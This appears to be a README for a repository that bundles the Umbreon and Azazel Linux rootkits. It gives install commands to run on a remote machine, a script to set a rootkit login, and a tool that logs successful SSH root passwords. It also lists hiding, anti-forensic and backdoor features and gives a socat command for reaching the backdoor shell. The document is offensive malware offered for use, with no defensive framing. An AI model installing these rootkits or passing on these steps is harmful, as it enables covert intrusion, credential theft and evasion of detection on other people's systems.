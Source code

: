 #########################
# Umbreon-Rootkit usage #
#########################

On remote machine run the Umbreon-Rootkit.sh script
```bash
bash Umbreon-Rootkit.sh
```
Umbreon Rootkit
------------------------------------------------------------------------------------------------------------------------------
Dependencies: OpenSSL binaries, libs, headers (or a smart user)
Password hashing format is Whirlpool. There's a tool included in utils.
The installer actually uses this, but your mileage may vary compiling it
on strange systems. If you run into issues just edit the installer script a bit.
Bring a static-compiled pwgen and unfuck if you're desperate to get it working
------------------------------------------------------------------------------------------------------------------------------
> **Note:** These next 2 commands run when you started the Umbreon-Rootkit.sh script
bash setup
bash root.sh [USERNAME] [PASSWORD] - This will set the login to the rootkit user
------------------------------------------------------------------------------------------------------------------------------
Extra Files:
portchecker | checks specified port
promptlog | successful SSH root passwords
------------------------------------------------------------------------------------------------------------------------------
To Fix Server If #RIPed
compile and run utils/unfuck.c

################
# azazel usage #
################
On remote machine run the azazel.sh script
```bash
bash azazel.sh
```
Azazel is a userland rootkit based off of the original LD_PRELOAD technique from Jynx rootkit.  It is more robust and has additional features, and focuses heavily around anti-debugging and anti-detection.

### Features
* Anti-debugging
* Avoids unhide, lsof, ps, ldd detection
* Hides files and directories
* Hides remote connections
* Hides processes
* Hides logins
* PCAP hooks avoids local sniffing
* Two accept backdoors.
 * [Crypthook](https://github.com/chokepoint/CryptHook) encrypted accept() backdoor -- Full PTY
 * Plaintext accept() backdoor           -- Full PTY
* PAM backdoor for local privesc and remote entry
* Log cleanup for utmp/wtmp entries based on pty

Using netcat to communicate with a remote PTY isn't the best idea. See below for a better PTY client written by [InfoDox](https://github.com/infodox), or use socat with a command similar to the following and then just paste the password into the session, otherwise socat send the first char making the passwords not match.

> socat -,raw,echo=0 TCP:target:port,bind=:61040

### Helper Links
* [Better PTY Client](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_shell_handler.py)

